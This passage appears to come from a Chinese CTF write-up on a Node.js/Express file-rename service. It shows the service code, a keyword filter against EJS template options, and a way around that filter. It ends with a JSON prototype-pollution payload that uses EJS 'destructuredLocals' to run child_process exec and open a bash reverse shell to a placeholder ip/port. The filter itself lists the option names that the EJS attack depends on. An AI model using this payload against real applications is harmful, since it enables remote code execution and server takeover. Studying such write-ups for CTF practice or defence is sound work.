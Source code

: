 ```bash
                }else{
                    fs.rename(__dirname+"/uploads/"+oldFileName, __dirname+"/uploads/"+newFileName, (err) => {
                        if (err) {
                            res.send('文件重命名失败！');
                        } else {
                            res.send('文件重命名成功！');
                        }
                    });
                }
            }else{
                res.send('文件重命名失败！');
            }

        }else{
            res.send('哒咩哒咩！');
        }

    }else{
        res.send('文件重命名失败！');
    }
});
function findKeyByValue(obj, targetValue) {
    for (const key in obj) {
        if (obj.hasOwnProperty(key) && obj[key] === targetValue) {
            return key;
        }
    }
    return null; // 如果未找到匹配的键名，返回 null 或其他标识
}
function waf(data) {
            data = JSON.stringify(data)
            if (data.includes('outputFunctionName') || data.includes('escape') || data.includes('delimiter') || data.includes('localsName')) {
                return false;
            }else{
                return true;
            }
}
//设置 http
var server = app.listen(8888,function () {
    var port = server.address().port
    console.log("http://127.0.0.1:%s", port)
});
```

打 ejs 原型链污染 rce 过滤了 `outputFunctionName`，`escape`，`delimiter`，`localsName`

还可以用 destructuredLocals

```bash
{"oldFileName":"a.txt","newFileName":{"__proto__":{ "destructuredLocals":["__line=__line;global.process.mainModule.require('child_proce ss').exec('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"');//"] }},"uuid":"5769140e-b76b-419a-b590-9630f023bdd7"}
```
